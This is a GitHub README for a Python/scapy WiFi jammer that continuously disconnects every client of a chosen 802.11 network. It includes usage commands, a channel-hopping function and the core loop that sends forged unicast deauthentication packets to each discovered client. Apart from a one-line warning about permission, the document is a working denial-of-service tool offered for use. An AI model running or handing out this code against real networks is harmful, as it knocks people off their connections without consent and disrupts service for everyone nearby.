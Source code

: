 # 802.11 Wifi Jammer
**Infinitely disconnects clients one by one from a 802.11 network**

**This program does send a broadcast de-auth packet using the networks bssid as it is REALLY INEFFECTIVE and rarely works. INSTEAD this program scans the selected network for clients and adds those clients into a list, then infinitely loops through the clients list to send UNICAST DE-AUTH packets to specified clients which in turn in very effective**


**! <ins>DO NOT USE ON A NETWORK WITHOUT PRIOR PERMISSION</ins> !**

Prerequisites
-------------

* Wireless adapter supporting monitor mode and packet injection
* Python with ***scapy*** and ***colorama*** installed

Usage 
------
``` shell
python jammer.py <interface> <noise_filter_flag>
```
* The interface mentioned should have monitor mode already ON.
* The noise_filter_flag could be either 1 (True : noise filter is on) or 0 (False: noise filter is off)
  
Example:
``` shell
python jammer.py wlan0mon 1
```
How To Use
-----------

**The programs works in a three step process:**

### 1) Scanning APs:

* sniffs beacons frames using scapy on the specified interface
* channel hopping is done through a hopper thread which terminates through a daemon boolean flag
``` shell
def channelHopper():	
    while True: 
        channel = random.choice(channels)
        os.system("iw dev wlan0 set channel {}".format(channel))
        with lock:	
            global CURRENT_CHANNEL
            CURRENT_CHANNEL = channel
        if not(daemonFlag):
        	break 
        time.sleep(0.2)
```
### 2) Scanning Selected Network For Clients:
**This involves switching over to the channel of the selected network and extracting for clients bssid using these radio packets:** 
* Qos Frame
* Qos with CCMP Frame
* Control Block Frame
* Null Frame

This is achieved using the **clientFilter** function:

https://github.com/ary27x/WIFI_JAMMER/blob/3aaf282f24d69eee91449ad566a4b627701ea4e0/jammer.py#L130

### 3) Sending De-Authentication Packets:

**Finally the program infinitely loops through the clients list and sends forged de-authentication packet to each through layer 2**

``` shell
while True:
    for client in clients:
        packet = RadioTap()/Dot11(addr1 = client, addr2 = MAC , addr3 = MAC)/Dot11Deauth()
        sendp(packet , iface = IFACE)
```





  




